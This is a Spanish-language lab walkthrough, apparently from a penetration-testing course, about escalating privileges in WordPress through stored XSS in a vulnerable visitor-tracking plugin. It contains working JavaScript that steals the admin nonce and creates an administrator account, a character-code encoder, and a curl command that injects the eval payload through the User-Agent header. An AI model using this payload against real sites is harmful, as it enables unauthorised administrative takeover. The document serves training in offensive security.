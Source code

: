 # Walk: Escalada de privilegios mediante XSS - POC

## Fecha: 16/01/2025
## Host: Kali
## IP: 192.168.245.16

---

## Objetivo
Crear un usuario con permisos de administrador por medio de XSS.
De esta POC salen las respuestas del laboratorio. 8.4.5
---
## Herramientas
1. BurpSuite 
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: De la POC anterior, podemos definir un vector de ataque.
2. Paso 2: Exploramos las cookies en busca del atributo HttpOnly en false.
	 - al no encontrar cookies de interes que nos sirvan optamos por **cambiar el angulo del vector de ataque**
3. Paso 3: Se torna necesario cubrir otra clase de ataque, y se explora la utilizacion del **nonce (Number Used Once) ** de wordpress
	 El nonce en WordPress actúa como una medida de seguridad para validar que una acción o solicitud 
	 proviene de una fuente legítima y autorizada. Su objetivo principal es prevenir ataques CSRF (Cross-Site Request Forgery), 
	 pero también puede proteger contra algunas variantes de ataques XSS o abuso de endpoints sensibles.
4. Paso 4:Definicion del **Vector de ataque**: 
	Entonces, sabiendo de la POC anterior que **Visitor** es vulnerable a XSS por medio 
	del User-Agent en la cabecera podemos obtener el **nonce** y crear un usuario con permisos de administrador.
5. Paso 5: Generacion de Payload:
	1. Obtenemos el **nonce**:
	```
		var ajaxRequest = new XMLHttpRequest();
		var requestURL = "/wp-admin/user-new.php";
		var nonceRegex = /ser" value="([^"]*?)"/g;
		ajaxRequest.open("GET", requestURL, false);
		ajaxRequest.send();
		var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
		var nonce = nonceMatch[1];

	```
	2. Creamos el usuario con permisos Administrativos:\
	``` 
		var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
		ajaxRequest = new XMLHttpRequest();
		ajaxRequest.open("POST", requestURL, true);
		ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		ajaxRequest.send(params);

	```
6. Paso 6: Minificamos y codificamos el JS para enviarlo en el User-Agent en la cabecera.
7. Paso 7: Una vez minificado el codigo anterior lo guardamos en un archivo:
	- echo 'var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);' > input.txt
	- creamos un script en python para codificarlo:
	``` 
		def encode_to_python(string):
		    output = ""
    		    for pos in range(len(string)):
        		  output += str(ord(string[pos]))
        		  if pos != len(string) - 1:
            	          output += ","
    			  return output

		# Leer el string desde un archivo
		with open("input.txt", "r") as file:
    		input_string = file.read().strip()  # Lee el contenido del archivo y elimina espacios o saltos de línea

		# Llamar a la función con el string leído
		encoded = encode_to_python(input_string)

		# Imprimir el resultado
		print(encoded)

	```
	- el output de esto debe lucir algo asi: ...118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,...
	- Esta alternativa con python es una eleccion personal. Es posible lograr el mismo resultado con javascript desde el navegador o instalando NodeJS.
	- Dentro del curl ejecutamos eval y fromCharCode(payload)
8. Paso 8 (Final): Ejecutamos el Payload:
	- curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(...payload ...118,97,114,32,97...))</script>" --proxy 127.0.0.1:8080
	- antes de ejecutar el script anterior abrimos Burpsuite con el interceptor apagado y corroboramos que el codigo de respuesta sea 200
	- Verificamos en el panel de Visitors > Start para ejecutar nuestro Payload y ver el usuario creado.
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **JavaScript 1:** enocde_to_javascript(string) => ...118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,...
	```
		function encode_to_javascript(string) {
          	      var input = string
          	      var output = '';
           	 	for(pos = 0; pos < input.length; pos++) {
                	     output += input.charCodeAt(pos);
                	     if(pos != (input.length - 1)) {
                    	        output += ",";
                	     }
            	        }	
            	        return output;
        	 }
        
		let encoded = encode_to_javascript('insert_minified_javascript')
		console.log(encoded)
	```
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

